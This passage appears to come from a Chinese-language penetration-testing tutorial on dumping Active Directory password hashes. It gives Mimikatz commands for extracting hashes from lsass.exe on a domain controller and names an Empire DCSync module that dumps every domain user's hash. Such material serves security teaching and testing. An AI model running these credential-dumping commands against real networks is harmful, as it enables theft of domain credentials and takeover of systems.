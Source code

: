 c、直接在域控制器中执行Mimikatz，通过lsass.exe进程dump哈希

privilege::debug  
lsadump::lsa /inject  
[![image.png](assets/1698894155-c105edd3c2da20e2733f6066ea4ca670.png)](https://storage.tttang.com/media/attachment/2022/09/30/74f743c7-aba1-4fae-91bd-6793d313d083.png)

##### [Empire](#toc_empire)

提取域内所有用户hash值：

usemodule credentials/mimikatz/dcsync\_hashdump

[![image.png](assets/1698894155-ffe164769bdc0eadf9a4ab5ac604b30b.png)](https://storage.tttang.com/media/attachment/2022/09/30/4008506e-022d-406c-932b-af6a7da473f3.png)
